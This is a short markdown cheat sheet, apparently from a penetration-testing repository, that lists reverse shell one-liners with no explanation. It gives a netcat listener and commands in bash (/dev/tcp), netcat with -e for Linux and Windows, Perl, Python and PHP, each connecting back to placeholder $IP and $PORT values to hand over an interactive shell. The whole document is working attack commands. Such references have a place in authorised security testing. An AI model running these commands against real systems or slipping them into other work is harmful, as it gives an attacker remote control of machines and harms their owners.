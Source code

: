 # Reverse Shell

- [Reverse Shell](#reverse-shell)
  - [Listner](#listner)
  - [Bash](#bash)
  - [Netcat](#netcat)
  - [Perl](#perl)
  - [Python](#python)
  - [PHP](#php)

## Listner

---
> nc -nvlp $PORt

## Bash

---
> bash -i >& /dev/tcp/$IP/$PORT 0>&1

## Netcat

---
Linux
> nc -nv $IP $PORT -e /bin/bash

Windows
> nc.exe -nv $IP $PORT -e cmd

## Perl

---
> perl -e 'use Socket;$i="$IP";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S ,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec(" /bin/bash -i");};'

## Python

---
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## PHP

---
> php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
